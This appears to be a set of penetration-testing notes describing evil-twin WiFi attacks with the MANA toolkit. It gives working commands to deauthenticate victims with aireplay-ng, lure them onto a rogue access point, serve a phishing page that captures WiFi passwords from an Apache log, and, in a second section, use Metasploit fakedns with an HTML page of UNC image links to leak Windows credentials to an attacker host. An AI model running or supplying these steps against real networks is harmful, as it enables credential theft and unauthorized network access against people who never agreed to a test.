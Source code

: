 - copy the html phishing page to /use/share/mana-toolkit/www/portal

Start the payload start-noupstream.sh
```
./start-noupstream.sh
```

Start the second interface to monitor mode:
```
airmon-ng start wlan1
airodump-ng wlan1mon --essid <name of SSID> --channel 6 (of the target)
```

Now we need to deauth the target from the legit network to log in ours malicious one:
```
aireplay-ng --deauth 25 wlan1mon -b <BSSID> -c <SSID> -e <name of network> 
```

- bssid = mac of the target AP
- ssid = mac of the target station
- -e = name of the network

- now that the victim enter in our malicious network
- when they open the browser, it will automatically open the phishing page
- that we can get their password of their WiFi

After they insert the password we can grab from
```
tail -f /var/log/apache2/access.log
```

- now we can access their WiFi and continue the pentest


### with Responder + MANA
Execute the payload:
```
./start-noupstream.sh
```

- in another tab

Put the second interface in monitor mode:
```
airmon-ng start wlan1
airodump-ng wlan1mon -essid <name of network> --channel <same of the target>
```

Metasploit fake dns:
```
use auxiliary/server/fakedns
set targetaction FAKE
set targetdomain *
set targethost 10.0.0.1
exploit -j
```

Create a simple html page:
```html

<html>
<img src="file://///10.0.0.1/share" width="0" height="0"></img>
<img src="\\10.0.0.1\share" width="0" height="0"></img>
</html>

```
